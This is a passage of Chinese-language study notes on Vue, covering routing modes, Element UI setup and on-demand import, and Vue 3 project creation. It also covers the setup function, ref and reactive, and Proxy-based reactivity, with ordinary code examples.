hash的作用是所有hash值（路径的一部分）不会作为参数去传递给服务器。

**history工作模式**

history开启后，路径会有明显改变。


history的问题是兼容性差。使用history在进行配置时需要注意一个问题：路由路径在组件路由时当作路由属性使用，在浏览器刷新时被当作Http请求地址使用，导致404情况。


这一个情况也是可以在Nginx中配置处理。


## 常用UI组件库

### 移动端

Vant: https://youzan.github.io/vant

Cube UI：https://didi.github.io/cube-ui

Mint UI：http://mint-ui.github.io

uniapp

color ui

lauui

natui

### PC端

Element UI：https://element.eleme.cn

IView UI：https://www.iviewui.com


## 前端组件element-ui

### 基本使用

安装：

```
npm i element-ui -S
```

根据官网，快速上手。https://element.eleme.cn/#/zh-CN/component/quickstart

使用插件

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入elementUI组件库
import ElementUI from 'element-ui';
//引入elementUI的全部样式
import 'element-ui/lib/theme-chalk/index.css';

//关闭vue的生产提示
Vue.config.productionTip=false
//应用ElementUI
Vue.use(ElementUI)

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App)
})
```

使用UI组件

```vue
<template>
  <div>
    <h2>原生的按钮&输入框</h2>
    <button>按钮</button>
    <input type="text">
    <hr>
    <h2>ElementUI的按钮&输入框</h2>
    <el-row>
      <el-button>默认按钮</el-button>
      <el-button type="primary">主要按钮</el-button>
      <el-button type="success">成功按钮</el-button>
      <el-button type="info">信息按钮</el-button>
      <el-button type="warning">警告按钮</el-button>
      <el-button type="danger">危险按钮</el-button>
    </el-row>
    <div class="demo-input-suffix">
      <el-input
          placeholder="请选择日期"
          suffix-icon="el-icon-date"
          v-model="input1">
      </el-input>
    </div>
    <div class="block">
      <div class="radio">
        排序：
        <el-radio-group v-model="reverse">
          <el-radio :label="true">倒序</el-radio>
          <el-radio :label="false">正序</el-radio>
        </el-radio-group>
      </div>

      <el-timeline :reverse="reverse">
        <el-timeline-item
            v-for="(activity, index) in activities"
            :key="index"
            :timestamp="activity.timestamp">
          {{activity.content}}
        </el-timeline-item>
      </el-timeline>
    </div>
  </div>
</template>

<script>

export default {
  name: 'App',
  data() {
    return {
      reverse: true,
      activities: [{
        content: '活动按期开始',
        timestamp: '2018-04-15'
      }, {
        content: '通过审核',
        timestamp: '2018-04-13'
      }, {
        content: '创建成功',
        timestamp: '2018-04-11'
      }]
    };
  }
}
</script>

<style>
</style>
```

效果：


注意点：在use插件之后，ElementUI就将全部组件和样式都插入到Vue框架中了，这样每次加载时会加载一个比较大的文件。


这一个文件中包含了全部编写时的组件，还有ui样式和交互逻辑。还包含了ElementUI的所有样式和组件。

### 按需引入

前面也讲到，这一个ElementUI一次性把所有组件和样式都引入进来，给前端加载造成了压力。

我们可以按需引入需要的内容

在官网中也有提到：https://element.eleme.cn/#/zh-CN/component/quickstart


安装：-D dev开发依赖

```shell
npm install babel-plugin-component -D
```

修改babel.config

```
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset',
    ["es2015", { "modules": false }]
  ],
  "plugins": [
    [
      "component",
      {
        "libraryName": "element-ui",
        "styleLibraryName": "theme-chalk"
      }
    ]
  ]
}
```

main.js中引入需要的组件。而样式的话会根据前面的配置自动引入所需的样式。

如果在注册组件时提供了别名，则使用组件要按照那一个别名来

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入elementUI组件库
// import ElementUI from 'element-ui';
//引入elementUI的全部样式
// import 'element-ui/lib/theme-chalk/index.css';

//引入需要的ElementUI组件
import { Button,Row, Select,Input,RadioGroup,Timeline,TimelineItem } from 'element-ui';

//关闭vue的生产提示
Vue.config.productionTip=false
//应用ElementUI
// Vue.use(ElementUI)

//注册全局组件
Vue.component('zhuzhe', Button);
Vue.component(Row.name, Row);
Vue.component(Select.name, Select);
Vue.component(Input.name, Input);
Vue.component(RadioGroup.name, RadioGroup);
Vue.component(Timeline.name, Timeline);
Vue.component(TimelineItem.name, TimelineItem);


//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App)
})
```

App.vue

```vue
<template>
  <div>
    <h2>原生的按钮&输入框</h2>
    <button>按钮</button>
    <input type="text">
    <hr>
    <h2>ElementUI的按钮&输入框</h2>
    <el-row>
      <zhuzhe>默认按钮</zhuzhe>
      <zhuzhe type="primary">主要按钮</zhuzhe>
      <zhuzhe type="success">成功按钮</zhuzhe>
      <zhuzhe type="info">信息按钮</zhuzhe>
      <zhuzhe type="warning">警告按钮</zhuzhe>
      <zhuzhe type="danger">危险按钮</zhuzhe>
    </el-row>
    <div class="demo-input-suffix">
      <el-input
          placeholder="请选择日期"
          suffix-icon="el-icon-date"
          v-model="input1">
      </el-input>
    </div>
    <div class="block">
      <div class="radio">
        排序：
        <el-radio-group v-model="reverse">
          <el-radio :label="true">倒序</el-radio>
          <el-radio :label="false">正序</el-radio>
        </el-radio-group>
      </div>

      <el-timeline :reverse="reverse">
        <el-timeline-item
            v-for="(activity, index) in activities"
            :key="index"
            :timestamp="activity.timestamp">
          {{activity.content}}
        </el-timeline-item>
      </el-timeline>
    </div>
  </div>
</template>

<script>

export default {
  name: 'App',
  data() {
    return {
      reverse: true,
      activities: [{
        content: '活动按期开始',
        timestamp: '2018-04-15'
      }, {
        content: '通过审核',
        timestamp: '2018-04-13'
      }, {
        content: '创建成功',
        timestamp: '2018-04-11'
      }]
    };
  }
}
</script>

<style>
</style>
```


启动效果：


### 报错处理

由于一些版本原因，但在启动时报错时，如果是mot found 则安装那一个缺失的包


这个就是提示babel-preset-es2015过期用babel-preset-env


再次启动遇到预设文件问题


改项目配置es2015为下面


在这样就成功启动了，


## vue3

vue3相比vue2：

* 性能提升
* 源码升级
* 支持TypeScript
* 新的特性
* 新的内置组件
* 其他改变

### 创建Vue3工程

#### 使用vue-cli创建

官方文档：https://cli.vuejs.org/zh/guide/creating-a-project.html#vue-create

```shell
## 查看@vue/cli版本。确保@vue/cli版本在4.5.0以上
vue --version
## 安装或者升级你的@vue/cli
npm install -g @vue/cli
## 创建
vue create vue3_test
## 启动
cd vue_test
npm run serve
```

创建，选择vue3版本


启动项目


访问正常


#### 使用vite创建

官方文档：https://v3.cn.vuejs.org/guide/installation.html#vite

vite官网：https://vitejs.cn

* 什么是vite？——新一代前端构建工具（以前是用webpack）

* 优势如下：

  * 开发环境中，无需打包操作，可快速冷启动
  * 轻量快速的热重载（HMR）
  * 真正的按需编译，不再等待整个应用编译完成

* 传统构建webpack与vite对比

  webpack一进来进入entry入口文件，然后分析路由文件，分析模块。然后进行打包，最后告诉服务器打包好了。

  vite一准备好服务器，根据Http请求去分析路由文件，分析模块文件完成这一部分的编译。

  

vite创建vue3项目

```shell
## 创建工具
npm init vite-app <project-name>
## 进入工具目录
cd <project-name>
## 安装依赖
npm i
## 运行
npm run dev
```

创建vue3项目


进入目录安装依赖


启动


根据提供的地址访问查看


### 分析vue3结构

#### main.js

* 引入的不在是一个残缺版Vue，而是引入一个工厂函数

* 使用了app轻量化应用实例，比Vue实例少很多不必要属性

  

* mount：挂载容器

* unmount：卸载容器

可以设置定时器看卸载功能


Vue3和Vue2一样的语法，可以在vue.config.js中配置不进行语法检查。


Vue3中不支持Vue2的实例化Vue实例配置


#### App.vue

在Vue2中，`<template></template>`标签内部得定义div根标签。在Vue3中不用


### 常用Composition API

组合式API。

#### setup

1. 理解：Vue3.0中一个新的配置项，值为一个函数

2. setup是所有Composition API（组合API）表演的舞台

3. 组件中所用到的：数据、方法等等。均要配置在setup中（Vue2中的那些配置项要写在里面）

4. setup函数的两种返回值

   1. 若返回一个对象，则对象中的属性、方法在模板中均可以直接使用。

      ```vue
      <template>
        <h1>一个人的信息</h1>
        <h2>姓名：{{name}}</h2>
        <h2>年龄：{{age}}</h2>
        <button @click="sayHello">欢迎</button>
      </template>
      
      <script>
      export default {
        name: 'App',
        //此处只是测试一下setup
        setup(){
          //数据
          let name = 'zhuzhe'
          let age = 18
          //方法
          function sayHello() {
            alert(`我叫${name},我${age}岁了，你好！`)
          }
          return{
            name,
            age,
            sayHello
          }
        }
      }
      </script>
      ```

      

   2. 若返回一个渲染函数，则可以自定义渲染内容

      即之前学习vue2中的createElement，填写要渲染的内容，并返回出去。

      ```vue
      <template>
        <h1>一个人的信息</h1>
        <h2>姓名：{{name}}</h2>
        <h2>年龄：{{age}}</h2>
        <button @click="sayHello">欢迎</button>
      </template>
      
      <script>
      import {h} from 'vue'
      export default {
        name: 'App',
        //此处只是测试一下setup
        setup(){
          //数据
          let name = 'zhuzhe'
          let age = 18
          //方法
          function sayHello() {
            alert(`我叫${name},我${age}岁了，你好！`)
          }
          //返回一个对象（常用）
          /*return{
            name,
            age,
            sayHello
          }*/
          //返回一个函数（渲染函数）
          return ()=>{
            return h('h3','zhuzhe')
          }
        }
      }
      </script>
      ```

      


**注意点**

在Vue3中也可以使用Vue2中的语法。

App.vue

```vue
<template>
  <h1>一个人的信息</h1>
  <h2>姓名(Vue3)：{{name}}</h2>
  <h2>年龄(Vue3)：{{age}}</h2>
  <h2>年龄(Vue2)：{{sex}}</h2>
  <button @click="sayHello">欢迎(Vue3)</button>
  <button @click="sayWelcome">欢迎(Vue2)</button>
</template>

<script>
//import {h} from 'vue'
export default {
  name: 'App',
  data(){
    return{
      sex:'男'
    }
  },
  methods:{
    sayWelcome(){
      alert('hello')
    }
  },
  //此处只是测试一下setup
  setup(){
    //数据
    let name = 'zhuzhe'
    let age = 18
    //方法
    function sayHello() {
      alert(`我叫${name},我${age}岁了，你好！`)
    }
    //返回一个对象（常用）
    return{
      name,
      age,
      sayHello
    }
    //返回一个函数（渲染函数）
    /*return ()=>{
      return h('h3','zhuzhe')
    }*/
  }
}
</script>
```



但是尽量不要Vue3与Vue2.x配置混用

* Vue2.x配置（data、methods、computed...）中可以访问到Vue3的setup中的属性方法
* 但在setup中不能访问到Vue2.x配置（data、methods、computed...）
* 如果有重名，则Vue3的setup配置优先

setup不能是一个async函数，因为修饰之后的返回值不再是return对象，而是promise包裹的对象。模板不能直接看到return对象中的属性。（加了async的函数在调用时要用then属性访问）

App.vue

```vue
<template>
  <h1>一个人的信息</h1>
  <h2>姓名(Vue3)：{{name}}</h2>
  <h2>年龄(Vue3)：{{age}}</h2>
  <h2>性别(Vue2)：{{sex}}</h2>
  <h2>地址(Vue2、Vue3)：{{addr}}</h2>
  <button @click="sayHello">欢迎(Vue3)</button>
  <button @click="sayWelcome">欢迎(Vue2)</button>
  <button @click="test">测试Vue2配置中读取Vue3数据、方法</button>
  <button @click="test2">测试Vue3的setup配置中读取Vue2数据、方法</button>
</template>

<script>
//import {h} from 'vue'
export default {
  name: 'App',
  data(){
    return{
      sex:'男',
      addr:'广州'
    }
  },
  methods:{
    sayWelcome(){
      alert('hello')
    },
    test(){
      console.log(this.name)
      console.log(this.age)
      console.log(this.sex)
      console.log(this.sayHello)
      this.sayHello();
    }
  },
  //此处只是测试一下setup
  setup(){
    //数据
    let name = 'zhuzhe'
    let age = 18
    let addr = '汕头'
    //方法
    function sayHello() {
      alert(`我叫${name},我${age}岁了，你好！`)
    }
    function test2(){
      console.log(name)
      console.log(age)
      console.log(this.sex)
      console.log(this.sayWelcome())
      this.sayWelcome();
    }
    //返回一个对象（常用）
    return{
      name,
      age,
      sayHello,
      test2,
      addr
    }
    //返回一个函数（渲染函数）
    /*return ()=>{
      return h('h3','zhuzhe')
    }*/
  }
}
</script>
```


#### ref函数

在Vue2中的ref是用作标签。


在Vue3中新增了一个ref函数（现在就有2个ref了）

在前面编写Vue3代码中，是直接在setup中定义了变量，再提交出去使用，而这种定义的变量不是响应式数据，不会被Vue实例监视到。


想要将数据变为响应式数据，则要借助ref函数。


经过ref加工后的变量，本质是一个对象


是RefImpl的实例对象（引用对象）。这样就能将数据进行管理。


这一个对象中提供了value属性，并做了数据代理做了getter和setter。


这里原型对象就像之前的_data。提供了getter和setter方法。做了数据代理。在读写value时就会响应到原型对象中。（[数据代理概念](###数据代理)）

所以对响应式数据的更改，得访问到其里面的value


App.vue

```vue
<template>
  <h1>一个人的信息</h1>
  <h2>姓名：{{name}}</h2>
  <h2>年龄：{{age}}</h2>
  <button @click="changeInfo">修改人的信息</button>
</template>

<script>
import {ref} from "vue";

export default {
  name: 'App',
  setup(){
    //数据
    let name = ref('zhuzhe')
    let age = ref(26)
    function changeInfo(){
      console.log('name=',name,', age=',age)
      name.value = 'cxr'
      age.value = 33
    }
    //返回一个对象（常用）
    return{
      name,
      age,
      changeInfo
    }
  }
}
</script>
```

展示效果：


点击修改信息


Vue3在模板中解析数据时会自动加上.value。所以模板中直接写入对象。


在Vue3中，使用ref创建对象变量，其内部的属性也是响应式的。对于对象类型的value，Vue3选择了reactive来创建Proxy对象。


**理论上**，在Vue3中，如果处理下面这种假设有n层结构的对象，那么Vue3就会遍历去创建嵌套的RefImpl对象。

```json
name:RefImpl{
    ...,
    value:'张三'
}
age:RefImpl{
    ...,
    value:18
}
job:RefImpl{
    ...,
    value:{
    	type:RefImpl{
    		...,
    		value:...
		},
    	salary:RefImpl{
    		...,
    		value:...
		},
	}
}
```


但实际上Vue3对于对象里属性的处理，是使用了**Proxy对象**。


Vue3将Proxy对象的操作封装在reactive函数中。


#### reactive函数

前面提到，如果使用ref来定义对象时，最终是呈现一个RefImpl里面嵌套Proxy对象的结构。而我们操作数据的主要模板就是Proxy，所以这里可以使用reactive函数，使用它来直接创建Proxy对象。这一个对象也是响应式。


reactive函数不能用在基本数据类型上


得使用在函数上。


使用时：


测试reactive是否支持json多层结构


给展示和修改方法。


测试效果可以深层次监视


测试reactive创建数组实例



点击按钮触发函数


效果：成功修改并响应渲染


所以这个和前面vue2用Object.defineProperty去监视属性不一样，因为这种方式监视不了对象内部属性的改动，所以vue2才需要提供对数组或是对象的操作方法，由此来提供监视并动态更新数据。

* 而Vue3.0使用的是Proxy对象，就算是数组并且只使用普通赋值方式，而不是方法都能监视到数据变化，立即重新加载模板

基本数据类型就使用ref，对象结构就使用reactive。如果实在觉得麻烦，就想使用其中一个，那就再外层套一个对象，全用reactive

App.vue

```vue
<template>
  <h2>一个人的信息</h2>
  <h3>姓名：{{person.name}}</h3>
  <h3>年龄：{{person.age}}</h3>
  <h3>职位：{{person.job.type}}</h3>
  <h3>薪资：{{person.job.salary}}</h3>
  <h3>测试嵌套：{{person.job.a.b.c}}</h3>
  <h3>测试数组：{{person.hobby}}</h3>
  <button @click="changePerson">修改人的信息</button>
</template>

<script>
import {reactive} from "vue";

export default {
  name: 'App',
  setup(){
    //数据
    let person = reactive({
      name:'zhuzhe',
      age:26,
      job:{
        type:'Java开发工程师',
        salary:'12k',
        a:{
          b:{
            c:123
          }
        }
      },
      hobby:['抽烟','喝酒','烫头']
    })

    //方法
    function changePerson() {
      person.name = 'cxr'
      person.age = 43
      person.job.type = '测试开发'
      person.job.salary = '13k'
      person.job.a.b.c = 321
      person.hobby[0] = '学习'
    }

    return{
      person,
      changePerson
    }
  }
}
</script>
```

效果：

改变前：


改变后：


使用reactive是为了实现响应式


#### Vue3中的响应式

**vue2的响应式**

* 实现原理

  * 对象类型，通过`Object.defineProperty()`对属性的读取，修改进行拦截（数据劫持）

  * 数组类型，通过重写或更新数组的一系列方法来实现拦截。（对数组的变更方法进行了包裹）

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Vue3的响应式原理</title>
    </head>
    <body>
        <script type="text/javascript">
            //源数据
            let person = {
                name:'zhuzhe',
                age:26
            }
    
            //模拟Vue2中实现响应式
            let p = {}
            Object.defineProperty(p,'name',{
                configurable:true,//表示可配置，就可以被删除
                get(){//有人读取name时调用
                    return person.name;
                },
                set(value){//有人修改name时调用
                    console.log('Vue2：name被修改了')
                    person.name = value;
                }
            })
            Object.defineProperty(p,'age',{
                get(){//有人读取name时调用
                    return person.age;
                },
                set(value){//有人修改name时调用
                    console.log('Vue2：age被修改了')
                    person.age = value;
                }
            })
        </script>
    </body>
    </html>
    ```

* 存在的问题

  * 新增属性、删除属性、界面不会更新
    * 新增属性得通过[Vue的$set功能](####Vue的$set功能)往对象塞一个属性 和 [计算属性概念](####计算属性概念)设计一个新属性
  * 直接通过下标修改数组，界面不会自动更新

* 提供的解决方案

  ```vue
  <template>
    <div>
      <h2>我是Vue2写的效果</h2>
      <h3 v-show="person.name">姓名：{{person.name}}</h3>
      <h3>年龄：{{person.age}}</h3>
      <h3 v-show="person.sex">性别：{{person.sex}}</h3>
      <h3>爱好：{{person.hobby}}</h3>
      <button @click="addSex">添加sex属性</button>
      <button @click="delName">删除name属性</button>
      <button @click="updateHobby">修改第一个爱好名</button>
    </div>
  </template>
  
  <script>
  //import Vue from "vue";
  
  export default {
    name: 'App',
    data() {
      return {
        person:{
          name:'zhuzhe',
          age:26,
          hobby:['学习','吃饭']
        }
      };
    },
    methods:{
      addSex(){
        //this.person.sex = '男' defineProperty监测不到
  
        this.$set(this.person,'sex','男')
        //Vue.set(this.person,'sex','男')
        console.log(this.person)
      },
      delName(){
        //delete this.person.name defineProperty监测不到
  
        this.$delete(this.person,'name')
        //Vue.delete(this.person,'name')
        console.log(this.person)
      },
      updateHobby(){
        //this.person.hobby[0] = '打游戏' defineProperty监测不到
  
        //this.$set(this.person.hobby,0,'打游戏')
        this.person.hobby.splice(0,1,'打游戏')
        console.log(this.person)
      }
    }
  }
  </script>
  
  <style>
  </style>
  ```

  

**Vue3的响应式**

* 实现原理

  * 通过Proxy（代理）：拦截对象中任意属性的变化，包括：属性值的读写、属性的添加、属性的删除等。

  * 通过Reflect（反射）：对被代理对象的属性进行操作

  * MDN文档中描述的Proxy和Reflect：

    * Proxy：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Proxy

      使用Proxy对象比原先Vue2的defineProperty操作更加灵活，并且能够监听到增删改查的所有操作。

      ```html
      <!DOCTYPE html>
      <html lang="en">
      <head>
          <meta charset="UTF-8">
          <title>Vue3的响应式原理</title>
      </head>
      <body>
          <script type="text/javascript">
              //源数据
              let person = {
                  name:'zhuzhe',
                  age:26
              }
      
              //模拟Vue2中实现响应式
              // let p = {}
              // Object.defineProperty(p,'name',{
              //     configurable:true,//表示可配置，就可以被删除
              //     get(){//有人读取name时调用
              //         return person.name;
              //     },
              //     set(value){//有人修改name时调用
              //         console.log('Vue2：name被修改了')
              //         person.name = value;
              //     }
              // })
              // Object.defineProperty(p,'age',{
              //     get(){//有人读取name时调用
              //         return person.age;
              //     },
              //     set(value){//有人修改name时调用
              //         console.log('Vue2：age被修改了')
              //         person.age = value;
              //     }
              // })
      
              //模拟Vue3中实现的响应式window.Proxy
              const p = new Proxy(person,{
                  //有人读取P的某个属性时调用
                  get(target,propName){
                      console.dir(`有人读取了p里的${propName}`)
                      return target[propName];
                  },
                  //有人修改p的某个属性，或者给p追加某个属性时调用
                  set(target,propName,value){
                      console.dir(`有人读取了p里的${propName}属性，修改值为${value}，我要去更新界面了...`)
                      target[propName] = value;
                  },
                  //有人删除p的某个属性时调用
                  deleteProperty(target, propName) {
                      console.dir(`有人删除了p里的${propName}属性，我要去更新界面了...`)
                      return delete target[propName]
                  }
              })//这一个代理能够让P去映射person的操作
          </script>
      </body>
      </html>
      ```
    
      Proxy对象的：
    
      Handler属性：当你对属性增删改查任何操作的时候，依靠这个配置去完成。
    
      Target属性：具体的数据
    
    * Reflect：https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Reflect
    
      es6提供的一个对象，用于反射调用对象。假设目前定义一个对象let obj = {a:1,b:2}
    
      则除了可以直接操作对象外，还可以使用Reflect来操作对象。
    
      
    
      也可以给对象添加元素，并且这种方式比Vue2用的Object.defineProperty更灵活。
    
      
    
      在集成框架中，像Object这种出现错误时，无法捕获错误。Reflect比较友好。
    
      

* 解决了Vue2的问题(Proxy对象比defineProperty方法更强大)

  ```vue
  <template>
    <h2>一个人的信息</h2>
    <h3 v-show="person.name">姓名：{{person.name}}</h3>
    <h3>年龄：{{person.age}}</h3>
    <h3 v-show="person.sex">性别：{{person.sex}}</h3>
    <h3>职位：{{person.job.type}}</h3>
    <h3>薪资：{{person.job.salary}}</h3>
    <h3>测试嵌套：{{person.job.a.b.c}}</h3>
    <h3>测试数组：{{person.hobby}}</h3>
    <button @click="changePerson">修改人的信息</button>
    <button @click="addSex">添加一个sex属性</button>
    <button @click="delName">删除一个name属性</button>
  </template>
  
  <script>
  import {reactive} from "vue";
  
  export default {
    name: 'App',
    setup(){
      //数据
      let person = reactive({
        name:'zhuzhe',
        age:26,
        job:{
          type:'Java开发工程师',
          salary:'12k',
          a:{
            b:{
              c:123
            }
          }
        },
        hobby:['抽烟','喝酒','烫头']
      })
  
      //方法
      function changePerson() {
        person.name = 'cxr'
        person.age = 43
        person.job.type = '测试开发'
        person.job.salary = '13k'
        person.job.a.b.c = 321
        person.hobby[0] = '学习'
      }
  
      function addSex() {
        person.sex = '男'
      }
  
      function delName() {
        delete person.name
      }
  
      return{
        person,
        changePerson,
        addSex,
        delName
      }
    }
  }
  </script>
  ```

  

#### reactive对比ref

* 从定义角度对比：
  * ref用来定义：基本数据类型
  * reactive用来定义：对象（或数组）类型数据
  * 备注：ref也可以用来定义对象（或数组）类型数据，它内部会自动通过`reavtive`转为代理对象
* 从原理角度对比
  * ref通过`Object.defineProperty()`的`get`与`set`来实现响应式（数据劫持）
  * reactive通过使用Proxy来实现响应式（数据劫持），并通过Reflect操作源对象内部的数据。
* 从使用角度对比
  * ref定义的数据：操作数据需要`.value`，读取数据时模板中直接读取不需要`.value`
  * reactive定义的数据：操作数据与读取数据：均不需要`.value`


#### setup的两个注意点

Vue3中对Vue2的部分操作有所改变：props、slot、自定义事件。


> 在vue2使用时的数据处理

**props**

* porps传递的数据的特点：$attrs捡漏

数据从父组件传递到子组件可以使用props属性，就算不使用props接收，在子组件的VueComponent实例中也有$attrs来存储。


* 有用props接收的情况

  

  

* 没用props接收的情况

  

  

* props用作没被props接收的数据（传2个只接收1个）

  

  


**slot**

* slot传递元素特点：存储在$slots中的虚拟DOM节点，声明插槽接收后会替换插槽成为真实DOM节点，虚拟DOM节点还在。

父组件定义组件内元素，子组件不定义插槽接收。显示在组件实例对象的$slots属性中存储有一个**虚拟DOM节点**元素。


子组件提供插槽`<slot/>`后，虚拟DOM节点元素会转成**真实DOM节点**，并渲染替换插值位置。此时虚拟DOM节点仍然存在。


如果使用的是具名插槽（参考：[案例：分类列表使用具名插槽](####案例：分类列表使用具名插槽)）的话，则存储在$slots中的虚拟dom节点是以名称来索引插槽


> 在vue3中时

* setup指向的时机
  * 在beforeCreate之前执行一次，this是undefined
  
    `可以在setup方法和beforeCreate方法输出日志，即可查看执行顺序`
  
    
  
* setup参数
  * props：值为对象，包含：组件外部传递过来，但没有在props配置中声明的属性，相当于`this.$attrs`
  
    App.vue
  
    ```vue
    <template>
      <Demo msg="hello" user="zhuzhe"/>
    </template>
    ...
    ```
  
    Demo.vue
  
    ```vue
    ...
    <script>
      import {reactive} from "vue";
      export default {
        name:'Demo',
        props:['msg','user','cxk'],
        setup(props){
          console.log('setup执行...this=',this)
          console.log('props=',props)
    	  ...
        }
      }
    </script>
    ...
    ```
  
    没有声明接收传递数据则会在控制条弹出警告：
  
    
  
    如果是声明了一个没有传递的数据，则不会报错，输出接收为undefined：
  
    
  
  * context：上下文对象
    
    和在学习vuex时的概念一样，在这一个方法内需要使用到的东西，都提供在上下文里面。
    
    App.vue
    
    ```vue
    <template>
      <Demo msg="hello" user="zhuzhe"/>
    </template>
    ...
    ```
    
    Demo.vue
    
    ```vue
    ...
    <script>
      import {reactive} from "vue";
      export default {
        name:'Demo',
        props:['msg','user','cxk'],
        setup(props,context){
          console.log('setup执行...this=',this)
          console.log('props=',props)
          console.log('context=',context)
        }
      }
    </script>
    ...
    ```
    
    
    
    * attrs：值为对象，包含：组件外部传递过来，但没有在props配置中声明的属性，相当于`this.$attrs`
    
      `和之前vue2的效果一致，捡漏。如果我们对于props传递的数据没完全接收，会被$attrs捡漏。`
    
      App.vue
    
      ```vue
      <template>
        <Demo msg="hello" user="zhuzhe"/>
      </template>
      ...
      ```
    
      Demo.vue
    
      ```vue
      ...
      <script>
        import {reactive} from "vue";
        export default {
          name:'Demo',
          props:['msg'],
          setup(props,context){
            console.log('setup执行...this=',this)
            console.log('props=',props)
            console.log('context=',context)
          }
        }
      </script>
      ...
      ```
    
      
    
    * emit：分发自定义事件函数，相当于`this.$emit`
    
      在vue3中父组件给子组件绑定自定义事件后，子组件要使用类似props的声明接收emits。不声明接收就会有警告。
    
      
    
      App.vue
    
      ```vue
      <template>
        <Demo @hello="showHelloMsg" msg="hello" user="zhuzhe"/>
      </template>
      
      <script>
      import Demo from '@/components/Demo'
      
      export default {
        name: 'App',
        components:{Demo},
        setup(){
          function showHelloMsg(value) {
            alert(`触发hello事件，value=${value}`)
          }
          return{
            showHelloMsg
          }
        }
      }
      </script>
      ```
    
      Demo.vue
    
      ```vue
      <template>
        <h2>一个人的信息</h2>
        <h3>姓名：{{person.name}}</h3>
        <h3>年龄：{{person.age}}</h3>
        <button @click="handleHello">触发自定义hello事件</button>
      </template>
      
      <script>
        import {reactive} from "vue";
        export default {
          name:'Demo',
          props:['msg','user'],
          emits:['hello'],
          setup(props,context){
            console.log('setup执行...this=',this)
            console.log('props=',props)
            console.log('context=',context)
      
            //数据
            let person = reactive({
              name:'zhuzhe',
              age:26
            })
            //触发自定义事件
            function handleHello() {
              context.emit('hello',person.name)
            }
      
            //返回一个对象
            return{
              person,
              handleHello
            }
          }
        }
      </script>
      
      <style>
      </style>
      ```
    
      效果：
    
      
    
    * slots：收到的插槽内容，相当于`this.$slots`
    
      得使用新的属性才能在context中查看到插槽的信息`v-slot`
    
      下面代码是使用一个未被接收的具名插槽，可以在context的slots中看到。
    
      App.vue
    
      ```vue
      <template>
        <Demo @hello="showHelloMsg" msg="hello" user="zhuzhe">
          <template v-slot:cxk>
